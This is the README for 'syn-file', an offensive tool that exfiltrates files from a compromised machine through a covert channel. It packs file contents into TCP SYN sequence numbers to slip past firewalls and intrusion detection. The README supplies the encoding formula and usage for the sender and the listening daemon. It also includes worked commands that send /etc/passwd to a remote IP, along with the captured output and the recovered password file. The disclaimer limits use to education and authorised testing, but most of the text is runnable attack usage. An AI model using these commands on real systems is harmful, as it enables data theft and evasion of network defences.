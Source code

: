 # syn-file

Exfiltrate data from a compromised target using covert channels.


## Intro
**syn-file** is a software that allows data exfiltration using TCP SYN sequence number packets.
In that way it is possible to bypass firewalls or IDS as no TCP connection is ever opened... similar to TCP SYN scanning.

To be faster exfiltrating data, a useful codification technique is used. Encoding 4 chars in a integer like this:

```seq= buf[0] << 24 | buf[1] << 16 | buf[2] << 8 | buf[3];```

In that manner it is possible to exfiltrate data from a machine running the command **syn-file** to another machine
that is listening on the wire running **syn-daemon**.



##Background

There are some tools to deploy covert channels, mainly using ICMP protocol, padding the content in the payload section...
but that looks quite suspicious and is very easy to spot using a network sniffer, as Wireshark.

However I have not seen any tool to deploy covert channels using TCP sequence numbers, also in **syn-file** the payload is left empty ;-)


##usage / example


###syn-daemon (server)
```
# ./syn-daemon -i iface -s source_ip -f file_for_exfiltrated_data
-i interface
-s source ip
-f file to store exfiltrated data
```

Example:
```
# ./syn-daemon -i eth0 -s 192.168.1.155 -f passwd
using interface: eth0
libcap rule: "src host 192.168.1.155"
#    1 [SYN: 1] [SEQ #: 0x61743a78]
#    2 [SYN: 1] [SEQ #: 0x3a32353a]
#    3 [SYN: 1] [SEQ #: 0x32353a42]
#    4 [SYN: 1] [SEQ #: 0x61746368]
#    5 [SYN: 1] [SEQ #: 0x206a6f62]
#    6 [SYN: 1] [SEQ #: 0x73206461]
#    7 [SYN: 1] [SEQ #: 0x656d6f6e]
#    8 [SYN: 1] [SEQ #: 0x3a2f7661]
#    9 [SYN: 1] [SEQ #: 0x722f7370]
#   10 [SYN: 1] [SEQ #: 0x6f6f6c2f]
#   10 [SYN: 1] [SEQ #: 0x61746a6f]
...
```

And "passwd" recovered is:
```
# cat passwd 
at:x:25:25:Batch jobs daemon:/var/spool/atjobs:/bin/bash
avahi:x:481:481:User for Avahi:/run/avahi-daemon:/bin/false
avahi-autoipd:x:493:493:User for Avahi IPv4LL:/var/lib/avahi-autoipd:/bin/false
bin:x:1:1:bin:/bin:/bin/bash
colord:x:483:484:user for colord:/var/lib/colord:/sbin/nologin
daemon:x:2:2:Daemon:/sbin:/bin/bash
dnsmasq:x:486:65534:dnsmasq:/var/lib/empty:/bin/false
ftp:x:40:49:FTP account:/srv/ftp:/bin/bash
games:x:12:100:Games account:/var/games:/bin/bash
gdm:x:478:477:Gnome Display Manager daemon:/var/lib/gdm:/bin/false
...
```



###syn-file (client / target machine)
```
# ./syn-file -i interface -d dst_ip -f file_to_exfiltrate -p dst_port -P src_port -m MAC_address_server
-i interface
-d destination ip / IP that runs syn-daemon
-f file to exfiltrate
-p destination port
-P source port
-m MAC address server / syn-daemon
```

Example from target machine:
```
# ./syn-file -i eth0 -d 192.168.1.158 -f /etc/passwd -p 8080 -P 8081 -m 00:0C:0A:4a:3b:5c
using interface: eth0
#1	 [Read from file "at:x"] [Encoded SEQ #: 0x61743a78] [Wrote 74 bytes]
#2	 [Read from file ":25:"] [Encoded SEQ #: 0x3a32353a] [Wrote 74 bytes]
#3	 [Read from file "25:B"] [Encoded SEQ #: 0x32353a42] [Wrote 74 bytes]
#4	 [Read from file "atch"] [Encoded SEQ #: 0x61746368] [Wrote 74 bytes]
#5	 [Read from file " job"] [Encoded SEQ #: 0x206a6f62] [Wrote 74 bytes]
#6	 [Read from file "s da"] [Encoded SEQ #: 0x73206461] [Wrote 74 bytes]
#7	 [Read from file "emon"] [Encoded SEQ #: 0x656d6f6e] [Wrote 74 bytes]
#8	 [Read from file ":/va"] [Encoded SEQ #: 0x3a2f7661] [Wrote 74 bytes]
#9	 [Read from file "r/sp"] [Encoded SEQ #: 0x722f7370] [Wrote 74 bytes]
#10	 [Read from file "ool/"] [Encoded SEQ #: 0x6f6f6c2f] [Wrote 74 bytes]
```

##Disclamer
Only use allowed for educational purposes or professionaly during a penetration test given the proper permission.

All rights reserved

(c) 2017 spinfoo

Jacobo Avariento
